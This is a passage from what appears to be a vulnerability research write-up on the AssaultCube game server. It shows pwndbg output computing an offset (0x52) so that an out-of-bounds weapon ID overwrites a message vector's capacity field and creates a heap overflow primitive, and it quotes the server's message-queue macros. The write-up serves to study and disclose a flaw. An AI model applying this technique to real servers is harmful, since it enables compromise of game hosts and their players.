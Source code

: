 Perhaps overwriting the capacity member of the vector would introduce an overflow possibility! Making the vector think it's bigger than it really is.

I opened up the `vector` definition to see how it's [built](https://github.com/assaultcube/AC/blob/v1.2.0.2/source/src/tools.h#L375) and after a little reading I quickly picked up that:

`ulen` — Used Length, amount of elements within the vector.  
`alen` — Available Length, how many elements the vector can hold.  
`buf` — A pointer to the buffer itself.

Corrupting the `alen` of one of the vectors was tempting :)

I chose `messages` and not the other ones because this is the one that I can supply my own buffer into, and that's why overflowing it would be ideal.
We'll see that in a bit.

I calculated the offsets

```
pwndbg> p &client.messages.alen
$10 = (int *) 0x17ca990
pwndbg> down
 ► f 0           42c560 playerstate::spawnstate(int)
   f 1           411b32 sendspawn(client*)+258
   f 2           41f93f
   f 3           424d46
   f 4           42620a
   f 5           426289 main+89
   f 6     7f3b7e0cc0b3 __libc_start_main+243
pwndbg> p &this->mag
$11 = (int (*)[10]) 0x17ca848
pwndbg> p (0x17ca990 - 0x17ca848) / 4
$14 = 0x52
// 0x52 is the offset from client.state.mag to client.messages.alen
// client.state.mag[0x52] == &client.messages.alen
```

I supplied `0x52` as the weapon ID and hoped that a big integer would be written into `alen` and luckily enough...

<center><iframe style="width: 720px; height: 400px; margin: 0.5rem" src="https://www.youtube.com/embed/U9_75yxk2AY" frameborder="0" allowfullscreen></iframe></center>

Should probably mention that it took a while before I realized that I could do that, the bug indeed seemed useful, but I just couldn't find a good use to it at first to the point that I just sat it aside and kept on looking for other bugs while keeping in mind that I have this _card_ to activate at need.
Glad I found this neat trick eventually.

As I said earlier, `messages` was the interesting vector because it's the one that I could write data to, mostly using these [macros](https://github.com/assaultcube/AC/blob/v1.2.0.2/source/src/server.cpp#L2758).

```cpp
#define QUEUE_MSG                                  \
    {                                              \
        if (cl->type == ST_TCPIP)                  \
            while (curmsg < p.length())            \
                cl->messages.add(p.buf[curmsg++]); \
    }
#define QUEUE_BUF(body)           \
    {                             \
        if (cl->type == ST_TCPIP) \
        {                         \
            curmsg = p.length();  \
            {                     \
                body;             \
            }                     \
        }                         \
```